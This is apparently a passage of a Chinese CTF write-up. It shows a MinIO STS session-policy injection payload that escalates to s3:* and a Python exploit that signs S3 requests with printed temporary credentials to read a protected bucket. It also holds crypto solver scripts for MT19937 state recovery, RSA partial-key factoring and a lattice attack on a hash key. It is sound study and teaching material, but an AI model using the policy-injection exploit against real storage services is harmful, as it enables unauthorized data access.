User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://34.150.83.54:31668
Referer: http://34.150.83.54:31668/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"object_name":"test.txt"}
```

测试发现返回的STS凭证只能用来读取对应名称的对象，显然有策略控制只能访问对应名称的存储桶对象

用web服务提供的读取存储桶接口要注意将secret_access_key进行URL编码(对`+`号进行URL编码)

尝试过爆破JWT SECRET，无果

然后将返回的STS凭证的session_token的内容拿去jwt解密，发现`sessionPolicy`部分有输入的内容（object_name）存在，猜测可以进行RAM策略注入

https://forum.butian.net/share/4340

先测试了一下通过注入来扩展策略的资源(Resources)范围

```Plain
{"object_name":"*\",\"arn:aws:s3:::*"}
```

发现可以访问当前存储桶上传的所有文件，确实是可以注入的

构造注入允许执行所有Action的策略

```YAML
POST /api/genSTSCreds HTTP/1.1
Host: 127.0.0.1:11243
Content-Length: 99
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua: "Not.A/Brand";v="99", "Chromium";v="136"
Content-Type: application/json
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: */*
Origin: http://127.0.0.1:11243
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:11243/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"object_name": "*\"]},{\"Effect\":\"Allow\",\"Action\":[\"s3:*\"],\"Resource\":[\"arn:aws:s3:::*"}
```

一开始请求的时候报错`SignatureDoesNotMatch`

```XML
<?xml version="1.0" encoding="UTF-8"?>
<Error><Code>SignatureDoesNotMatch</Code><Message>The request signature we calculated does not match the signature you provided. Check your key and signing method.</Message><Resource>/</Resource><RequestId>18445CC363C4457D</RequestId><HostId>dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af9251148b658df7ac2e3e8</HostId></Error>
```

后面发现错误原因是缺少安全令牌的签名计算，我将 `x-amz-security-token` 加入了请求头，但没有包含在签名计算中，MinIO会验证所有签名头部的完整性



访问根目录，可以看到flag存储桶，访问里面的flag键得到flag



DeepSeek一把梭Exp：

```Python
import hmac
import hashlib
import datetime
import urllib.parse
import requests

#更改为自己通过/api/genSTSCreds获取的
ACCESS_KEY = "PTKZVLPN95ORZHJTBK0D"
SECRET_KEY = "d9QeMbVCgiMUE+EJ1eHfZIZlll+f6qmoL42HQTif"
SESSION_TOKEN = "eyJhbGciOiJIUzUxMiIsInR5cCI6IkpXVCJ9.eyJhY2Nlc3NLZXkiOiJQVEtaVkxQTjk1T1JaSEpUQkswRCIsImV4cCI6MTc0ODYyODI3MSwicGFyZW50IjoiQjlNMzIwUVhIRDM4V1VSMk1JWTMiLCJzZXNzaW9uUG9saWN5IjoiZXlKV1pYSnphVzl1SWpvaU1qQXhNaTB4TUMweE55SXNJbE4wWVhSbGJXVnVkQ0k2VzNzaVJXWm1aV04wSWpvaVFXeHNiM2NpTENKQlkzUnBiMjRpT2xzaWN6TTZSMlYwVDJKcVpXTjBJaXdpY3pNNlVIVjBUMkpxWldOMElsMHNJbEpsYzI5MWNtTmxJanBiSW1GeWJqcGhkM002Y3pNNk9qcGtNMmx1ZG1sMFlYUnBiMjR2SWwxOUxIc2lSV1ptWldOMElqb2lRV3hzYjNjaUxDSkJZM1JwYjI0aU9sc2ljek02S2lKZExDSlNaWE52ZFhKalpTSTZXeUpoY200NllYZHpPbk16T2pvNktpSmRmVjE5In0.wgYw9JJXuiACRXaZmIh2i-GSVUSEUW1kNLkRenMPpntr4r9DasxvArw0llt1eROVuTiOFR9Z3SSI0xpDzDDlwQ"
MINIO_ENDPOINT = "http://34.150.83.54:30761"

def sign(key, msg):
    return hmac.new(key, msg.encode('utf-8'), hashlib.sha256).digest()

def get_signature_key(key, date_stamp, region_name, service_name):
    k_date = sign(('AWS4' + key).encode('utf-8'), date_stamp)
    k_region = sign(k_date, region_name)
    k_service = sign(k_region, service_name)
    return sign(k_service, 'aws4_request')

def generate_aws_headers(method, path):
    # 获取时间和主机信息
    now = datetime.datetime.utcnow()
    amz_date = now.strftime('%Y%m%dT%H%M%SZ')
    date_stamp = now.strftime('%Y%m%d')
    host = MINIO_ENDPOINT.split('//')[1].split('/')[0]  # 正确获取主机:端口
    
    # 规范URI编码 (关键修复)
    canonical_uri = '/' + '/'.join(
        urllib.parse.quote(segment, safe='') 
        for segment in path.split('/')
    )
    
    # 规范查询字符串 (本例中为空)
    canonical_querystring = ""
    
    # 规范头部 (按字母顺序排序)
    canonical_headers = f"host:{host}\n"
    canonical_headers += f"x-amz-date:{amz_date}\n"
    canonical_headers += f"x-amz-security-token:{SESSION_TOKEN}\n"  # 包含在签名中
    
    signed_headers = "host;x-amz-date;x-amz-security-token"  # 按字母顺序
    
    # 规范请求体哈希 (GET请求为空)
    payload_hash = hashlib.sha256(b'').hexdigest()
    
    # 构建规范请求
    canonical_request = (
        f"{method}\n"
        f"{canonical_uri}\n"
        f"{canonical_querystring}\n"
        f"{canonical_headers}\n"
        f"{signed_headers}\n"
        f"{payload_hash}"
    )
    
    # 创建待签名字符串
    algorithm = "AWS4-HMAC-SHA256"
    credential_scope = f"{date_stamp}/us-east-1/s3/aws4_request"
    string_to_sign = (
        f"{algorithm}\n"
        f"{amz_date}\n"
        f"{credential_scope}\n"
        f"{hashlib.sha256(canonical_request.encode('utf-8')).hexdigest()}"
    )
    
    # 计算签名
    signing_key = get_signature_key(SECRET_KEY, date_stamp, "us-east-1", "s3")
    signature = hmac.new(
        signing_key, 
        string_to_sign.encode('utf-8'), 
        hashlib.sha256
    ).hexdigest()
    
    # 构建授权头
    authorization_header = (
        f"{algorithm} Credential={ACCESS_KEY}/{credential_scope}, "
        f"SignedHeaders={signed_headers}, "
        f"Signature={signature}"
    )
    
    return {
        'Host': host,
        'x-amz-date': amz_date,
        'x-amz-security-token': SESSION_TOKEN,
        'Authorization': authorization_header
    }

def list_all_buckets():
    headers = generate_aws_headers("GET", f"/")
    url = f"{MINIO_ENDPOINT}/"
    response = requests.get(url, headers=headers)

    
    if response.status_code == 200:
        print("[+] 所有存储桶列表:")
        print(response.text)
        return response.text
    else:
        print("[ERROR]")
        print(response.text)

# 使用示例
if __name__ == "__main__":
    headers = generate_aws_headers("GET", "flag/flag")
    # 发送请求
    response = requests.get(
        f"{MINIO_ENDPOINT}/flag/flag",
        headers=headers
    )
    print(response.text)
```

---

# Crypto

## d3guess

```Python
import os
os.environ['TERM'] = 'xterm'

from pwn import *
from tqdm import trange

context.proxy = (socks.HTTP, '172.27.224.1', 7897)

class Gao:
    def __init__(self):
        self.conn = process(['python3', 'another.py'])
        # self.conn = remote('35.220.136.70', '30591')
        self.rng_counter = 0
        self.randoms = []
        self.positions = []
        self.dest = 624 * 32
        self.bit_counter = 0

        self.fail_counter = 0
    
    def gao_1_one(self):
        current_randoms = []
        current_positions = []
        random_position = self.rng_counter
        self.rng_counter += 1

        self.conn.recvuntil('give me a number > ')
        self.conn.sendline('0')
        k = 6 - int(float(self.conn.recvline().decode().strip()) / 0.075)
        self.rng_counter += 2
        l = 2**31 * k // 3
        r = (2**31 * (k+1) + 2) // 3
        while (r - l > 1):
            mid = (l + r) // 2
            t = mid + 2**31 - 1
            self.conn.recvuntil('give me a number > ')
            self.conn.sendline(str(t))
            feedback = self.conn.recvline().decode().strip()
            self.rng_counter += 2
            if feedback == '0.225':
                r = mid
            elif feedback == '0.3':
                l = mid
            else:
                print("Unexpected feedback:", feedback)
                raise Exception
        self.conn.recvuntil('give me a number > ')
        self.conn.sendline(str(l))
        current_randoms = [f'{l - 1:032b}'] + current_randoms
        current_positions = [random_position] + current_positions
        self.randoms.extend(current_randoms)
        self.positions.extend(current_positions)
        self.bit_counter += 32

    def gao_1(self):
        for i in trange(350):
            self.gao_1_one()

    def find_mid(self, interval_prob: list[tuple[int, int, float]]) -> int:
        def calc_weighted_sum(interval_prob: list[tuple[int, int, float]], mid: int):
            weighted_sum = 0
            for l, r, prob in interval_prob:
                if mid < l:
                    break
                elif mid > r:
                    weighted_sum += (r - l + 1) * prob
                else:
                    weighted_sum += (mid - l + 1) * prob
            return weighted_sum
        all_prob = 0
        for l, r, prob in interval_prob:
            all_prob += (r - l + 1) * prob
        half_prob = all_prob / 2
        L = 1
        R = 2**32 - 1
        while (R - L > 1):
            MID = (L + R) // 2
            # Calculate weighted sum till mid
            weighted_sum = calc_weighted_sum(interval_prob, MID)
            if weighted_sum < half_prob:
                L = MID
            else:
                R = MID

        return L

    def gao_2_one(self):
        random_position = self.rng_counter
        current_guess = []
        current_result = []
        self.rng_counter += 1
        x_l = 1
        x_r = 2**31 - 1

        def extend_randoms(is_win: bool):
            current_randoms = []
            current_positions = []

            for i in range(len(current_guess)):
                rng_counter = random_position + 2 * i + 1
                guess_i = current_guess[i]
                result_i = current_result[i]
                if (
                    ((guess_i < x_l) and (result_i == 'smaller'))
                    or ((guess_i > x_r) and (result_i == 'bigger'))
                ):
                    current_randoms.append('000' + '?' * 29)
                    current_positions.append(rng_counter)
                    self.bit_counter += 3

            HIGH_BITS = 6
            LOW_BITS = 32 - HIGH_BITS
            if is_win:
                known_number = x_l - 1
                current_randoms = [f'{known_number:032b}'] + current_randoms
                current_positions = [random_position] + current_positions
                self.bit_counter += 32
            else:
                known_number = (x_l + x_r) // 2 - 1
                known_number = known_number >> LOW_BITS
                current_randoms = [f'{known_number:0{HIGH_BITS}b}' + '?' * LOW_BITS] + current_randoms
                current_positions = [random_position] + current_positions
                self.bit_counter += HIGH_BITS
                pass
            
            self.randoms.extend(current_randoms)
            self.positions.extend(current_positions)

        cnt = 0
        interval_prob = [(1, 2**32-1, 1.)]
        while (cnt < 63):
            cnt += 1
            # get mid
            mid = self.find_mid(interval_prob)
            self.conn.recvuntil('give me a number > ')
            self.conn.sendline(str(mid))
            feedback = self.conn.recvline().decode().strip()
            if feedback == 'your number is too big':
                more_prob = 0.1
                less_prob = 0.9
                self.rng_counter += 2
                current_guess.append(mid)
                current_result.append('smaller')
            elif feedback == 'your number is too small':
                more_prob = 0.9
                less_prob = 0.1
                self.rng_counter += 2
                current_guess.append(mid)
                current_result.append('bigger')
            elif feedback == 'you win':
                x_l = mid
                x_r = mid
                extend_randoms(True)
                return
            else:
                print("Unexpected feedback:", feedback)
                raise Exception
            # Update intervals
            new_interval_prob = []
            for l, r, prob in interval_prob:
                if mid < l:
                    new_interval_prob.append((l, r, prob * more_prob))
                elif mid > r:
                    new_interval_prob.append((l, r, prob * less_prob))
                else:
                    if (l <= mid - 1):
                        new_interval_prob.append((l, mid-1, prob * less_prob))
                    if (mid + 1 <= r):
                        new_interval_prob.append((mid+1, r, prob * more_prob))
            interval_prob = new_interval_prob
        best_interval = (0, 0, 0)
        best_density = 0.0
        for l, r, prob in interval_prob:
            if prob / (r - l + 1) > best_density:
                best_density = prob / (r - l + 1)
                best_interval = (l, r, prob)
        l, r, prob = best_interval
        self.conn.recvuntil('give me a number > ')
        guess = (l + r) // 2
        self.conn.sendline(str(guess))
        feedback = self.conn.recvline().decode().strip()
        if feedback == 'you win':
            x_l = guess
            x_r = guess
            extend_randoms(True)
        else:
            x_l = guess - 2**24
            x_r = guess + 2**24
            self.fail_counter += 1
            if feedback == 'your number is too big':
                self.rng_counter += 2
                current_guess.append(mid)
                current_result.append('smaller')
            elif feedback == 'your number is too small':
                self.rng_counter += 2
                current_guess.append(mid)
                current_result.append('bigger')
            extend_randoms(False)

    def solve_mt(self):
        my_bits = []
        current_position = -1
        for i in range(len(self.randoms)):
            current_bits = '?' * 32 * (self.positions[i] - 1 - current_position)
            current_bits += self.randoms[i]
            current_position = self.positions[i]
            my_bits.append(current_bits)
        my_bits = ''.join(my_bits)
        # Call MT solver
        io = process(['sage', 'maple_server.py'])
        io.sendlineafter('> ', my_bits)
        io.recvuntil('AOLIGEI: ')
        state = eval(io.recvline())
        r = random.Random()
        r.setstate(state)
        for i in range(self.rng_counter):
            r.getrandbits(32)
        io.close()
        return r

    def gao_2(self):
        part_1_counter = 0
        for i in trange(2200):
            self.gao_2_one()
            part_1_counter += 1
            if self.fail_counter == 87:
                break
        # Try to recover MT
        print(f'{self.bit_counter = }')
        print(f'dest = {624 * 32 = }')
        # to question mask
        r = self.solve_mt()
        for i in trange(2200 - part_1_counter):
            self.conn.recvuntil('give me a number > ')
            self.conn.sendline(str(r.randint(1, 2**32 - 1)))
            feedback = self.conn.recvline().decode().strip()
            if feedback != 'you win':
                raise Exception("GG")

    def gao(self):
        self.gao_1()
        self.gao_2()
        self.conn.interactive()

if __name__ == '__main__':
    g = Gao()
    g.gao()
```

```Python
import random
from contextlib import contextmanager
from time import perf_counter

from gf2bv import LinearSystem
from gf2bv.crypto.mt import MT19937

@contextmanager
def timeit(task_name):
    start = perf_counter()
    try:
        yield
    finally:
        end = perf_counter()
        print(f"{task_name} took {end - start:.2f} seconds")

def mt19937_server():
    LENGTH = 624 * 32

    my_bits = input('> ')
    bits_cnt = 0
    for i in range(len(my_bits)):
        if my_bits[i] != '?':
            bits_cnt += 1
        if bits_cnt == LENGTH:
            known_bits = my_bits[:i+1]
            known_bits = known_bits + '?' * (-len(known_bits) % 32)
            break
    else:
        raise ValueError(f'Not enough known bits provided. Need at least {LENGTH} bits.')

    temp = []
    bits = []
    for i in range(0, len(known_bits), 32):
        segment = known_bits[i:i+32]
        # nn = prng.getrandbits(32)
        # Assume ? is behind the known bits
        segment = segment.replace('?', '')
        bits.append(len(segment))
        temp.append(int(segment, 2) if segment else 0)

    out = temp
    lin = LinearSystem([32] * 624)
    mt = lin.gens()

    rng = MT19937(mt)
    with timeit("generate system"):
        zeros = []
        for b, t in zip(bits, out):
            if b == 0:
                rng.getrandbits(32)
            else:
                zeros.append(rng.getrandbits(b) ^ t)
        zeros.append(mt[0] ^ 0x80000000)
    print("solving...")
    with timeit("solve_one"):
        sol = lin.solve_one(zeros)
    print("solved", sol[:10])

    rng = MT19937(sol)
    pyrand = rng.to_python_random()
    print(f'AOLIGEI: {pyrand.getstate()}')

if __name__ == "__main__":
    mt19937_server()
```

---

## d3sysv2

可能能参考的论文：https://eprint.iacr.org/2022/1163.pdf

不过前年泄露的是LSB，这次泄露的是MSB，感觉就对着论文复现一下

但是step 1 求出来的是 k', l' mod e，记为ke, le，还不是k', l'，我们的目的是求出 k', l'

已知条件 k'l' = c, k' = ke + rp* e, l' = le + rq * e ，其中 rp, rq 未知且为153 bit，ke, le, e, c 则是已知的。如何求出rp, rq?

这就是已知p低位分解emmmmm

求解完之后step2 同样是个已知部分p分解，用small_root 求解的话需要仔细调调参，不然5秒的限制是过不去的。

```Python
from Crypto.Util.number import long_to_bytes,bytes_to_long, getPrime, inverse
from hashlib import sha256
from pwn import remote
import time

nbit = 3072
blind_bit = 153
unknownbit = 983
e_bit = 170


alpha = 170. / 3072.
gamma = 153. / 3072.
delta = 983. / 3072.

print('MSB case')
assert nbit//2-2*e_bit - blind_bit > unknownbit
print('Bound check pass')

while True:
    # conn = remote('127.0.0.1', int(10001))
    conn = remote('35.220.136.70', int(31539))

    conn.recvuntil(b'option >')

    bgt = time.time()
    conn.sendline(b'G')
    conn.recvuntil(b'dp,dq:')
    dp_M, dq_M = eval(conn.recvline())
    conn.recvuntil(b'n,e:')
    n,e = eval(conn.recvline())[0]

    # step 1
    N = n
    A_ = 2**(2*unknownbit)*e**2*dp_M*dq_M // N
    # assert A_+1 == real_k_*real_l_

    k_pl_ = (1 - (A_+1)*(N-1)) % e
    # assert (real_k_ + real_l_)%e == k_pl_

    P.<x> = PolynomialRing(Zmod(e))
    f = x*(k_pl_-x) - (A_+1)
    k_ = int(f.roots()[0][0])
    l_ = int(f.roots()[1][0])

    # assert k_ == real_k_ % e or k_ == real_l_ % e
    # assert l_ == real_k_ % e or l_ == real_l_ % e


    P.<x> = PolynomialRing(Zmod(A_+1))
    f = e * x + k_
    f = f.monic()
    tmp = f.small_roots(X=2**blind_bit, beta=0.43, epsilon=0.02)
    if len(tmp) ==0:
        continue
    k_h = tmp[0]
    rec_k = int(k_h * e + k_)

    print(time.time()-bgt)

    # step 2

    a = (e*dp_M*2**unknownbit + rec_k -1) * inverse_mod(e, rec_k*N)

    PR.<xx> = PolynomialRing(Zmod(rec_k * N))

    f_MSB = xx + a

    tmp = f_MSB.small_roots(X=2 ** unknownbit, beta=0.46, epsilon=0.0165)
    print(time.time() - bgt)
    if len(tmp) ==0 or time.time() - bgt > 5:
        continue

    rec_dp = dp_M*2**unknownbit + tmp[0]
    rec_dp = int(rec_dp)

    rec_p = (e*rec_dp-1)//rec_k+1
    assert N % rec_p == 0
    rec_q = N // rec_p
    d = inverse_mod(e, (rec_p-1)*(rec_q-1))

    conn.recvuntil(b'option >')
    conn.sendline(b'F')
    conn.recvuntil(b'Encrypted Token: ')
    c = int(conn.recvline()[:-1].decode(), 16)
    token = power_mod(c, d, N)
    tokenhash = sha256(long_to_bytes(token)).hexdigest()
    conn.sendline(tokenhash.encode())

    print(time.time()-bgt)
    print(conn.recvline())
    print(conn.recvline())
    conn.close()
    break
```

---

## d3fnv

题目给出最多65组

$$r_i = \sum_{j=0}^{n} x_{i,j} k^j \mod p$$

其中p和 r_i 已知， x_i 是小的，k和p的比特数相同， x_i, k未知。然后x_0 是 [0, 2^14] 以内的， 其余都是 [-127,127] 以内的。

**垂直格的局限性**：由于 x_i 并不是均匀的，x_0有点大，导致垂直格出来的向量是不正确的，存在误差。

然后乱搞了一下，在第二个垂直格那个地方增加了一个系数，然后就发现可以恢复出正确的x_i。虽然有少数的x_i 是错误的的，是被复合过的，但是仍然是能恢复出大部分的k^j，然后找出那个生成元就行（由于可能生成元被覆盖，因此多跑几次就能出结果）

```Python
def find_ortho_fp(*vecs):
    assert len(set(len(v) for v in vecs)) == 1
    L = block_matrix(ZZ, [[matrix(vecs).T, matrix.identity(len(vecs[0]))], [ZZ(p), 0]])
    print("LLL", L.dimensions())
    nv = len(vecs)
    L[:, :nv] *= p
    L = L.LLL()
    ret = []
    for row in L:
        if row[:nv] == 0:
            ret.append(row[nv:])
    return matrix(ret)

def my_find_ortho_zz(*vecs):
    assert len(set(len(v) for v in vecs)) == 1
    L = block_matrix(ZZ, [[matrix(vecs).T, 128 * matrix.identity(len(vecs[0]))]])
    print("LLL", L.dimensions())
    nv = len(vecs)
    L[0,nv] = 1
    L[:, :nv] *= p
    L = L.LLL()
    ret = []
    for row in L:
        if row[:nv] == 0:
            ret.append(row[nv:])
    return matrix(ret)


def get_xs(value, x, key):
    res = []
    k_1 = inverse_mod(key, p)
    for c in value[::-1]:
        newx = x ^^ ord(c)
        res.append(x - newx)
        x = newx * k_1 % p
    res.append(x)
    return res


def H4sh(value, key):
    length = len(value)
    x = int(ord(value[0]) << 7) % p
    for c in value:
        x = ((key * x) % p) ^^ ord(c)
    x ^^= length
    return x

from pwn import remote

while True:
    # conn = remote('127.0.0.1', int(10007))
    conn = remote('35.241.98.126', int(30222))
    conn.recvuntil(b'option >')
    conn.sendline(b'G')
    p = int(conn.recvline()[4:-1])
    # key = int(conn.recvline()[4:-1])
    F = GF(p)
    N = 64

    m = N
    n = 32

    ts = []
    rds = []
    for i in range(N):
        conn.recvuntil(b'option >')
        conn.sendline(b'H')
        conn.recvuntil(b'Token Hash: ')
        random_token_hash = int(conn.recvline()) ^^ 32
        ts.append(random_token_hash)
        # rds.append(conn.recvline()[:-1].decode())
    # conn.close()

    # xs = []
    # tmp = [pow(int(key), int(_), int(p)) for _ in range(n+1)]
    # for i in range(N):
    #     xs.append(get_xs(rds[i], ts[i], key))
    #     assert vector(F, xs[i])*vector(F, tmp) == ts[i]
    # X = Matrix(ZZ, xs)

    Mhe = find_ortho_fp(ts)
    MOrtho = Mhe[: m - n-1]
    # assert Matrix(ZZ,MOrtho)*Matrix(ZZ, xs) == zero_matrix(m-n-1, len(xs[0]))
    Lxx = my_find_ortho_zz(*MOrtho).T

    def is_X(line):
        for i in range(n+1):
            tmp = [abs(_) for _ in X.T[i]]
            if all(abs(_) in tmp for _ in line):
                 print(i, 'bingo')
                 return True
        return False

    rec_Lx = []
    for i in range(33):
        ttt = [Lxx.T[i][0]]+ [_ >>7 for _ in Lxx.T[i][1:]]
        # if is_X(ttt):
        #     cnt += 1
        rec_Lx.append(ttt)

    reck = None
    rec_ks = Matrix(F, rec_Lx).solve_left(vector(F,ts))
    for idx, ele in enumerate(rec_ks):
        if ele == 1:
            continue
        cnt = 0
        for i in range(33):
            if power_mod(ele, i, p) in rec_ks:
                cnt += 1
        print(idx, cnt)
        if cnt > 15:
            reck = p - ele if cnt ==17 else ele
            print('find key', reck)
            break
    if reck is None:
        continue

    conn.recvuntil(b'option >')
    conn.sendline(b'F')
    conn.recvuntil(b'Here is a random token x: ')
    random_token = conn.recvline()[:-1].decode()
    token_hash = H4sh(random_token, int(reck))

    conn.sendline(str(token_hash).encode())
    conn.recvuntil(b'Could you tell the value of H4sh(x)? ')
    msg = conn.recvline()
    print(msg)
    if b'again' in msg:
        reck = p - reck
        conn.recvuntil(b'option >')
        conn.sendline(b'F')
        conn.recvuntil(b'Here is a random token x: ')
        random_token = conn.recvline()[:-1].decode()
        token_hash = H4sh(random_token, int(reck))

        conn.sendline(str(token_hash).encode())
    conn.interactive()

    break
```
